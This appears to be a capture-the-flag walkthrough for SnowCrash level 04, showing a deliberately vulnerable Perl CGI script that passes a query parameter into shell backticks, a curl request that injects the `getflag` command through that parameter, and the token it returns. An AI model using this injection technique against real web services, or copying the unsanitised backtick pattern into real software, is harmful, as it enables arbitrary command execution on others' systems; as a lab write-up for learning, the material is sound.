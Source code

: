 # 🧊 SnowCrash - Level04 Walkthrough

## Level: 04

**Objective:** Exploit a vulnerable `Perl CGI` script to execute `getflag` and retrieve the token.

### 🧩 Step-by-step Solution

**1. Examine the script**

The file `level04.pl` contains the following Perl code:

```bash
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

✅ The script runs a local web server on `localhost:4747`, accepts a query parameter `x`, and passes it directly to:

```bash
print `echo $y 2>&1`;
```

This is a **command injection vulnerability** via `backticks`.

**2. Test the server**

Use `curl` to send a request with an injected command:

```bash
curl 'localhost:4747/level04.pl?x=`getflag`'
```

✅ Output:

```bash
Check flag. Here is your token : ne2searoevaevoem4ov4ar8ap
```

🔍 The `backticks` allow arbitrary shell command execution. Since the script echoes whatever is passed in `x`, we can inject `getflag` and retrieve the token directly.

**🔓 Successfully moved to level05!**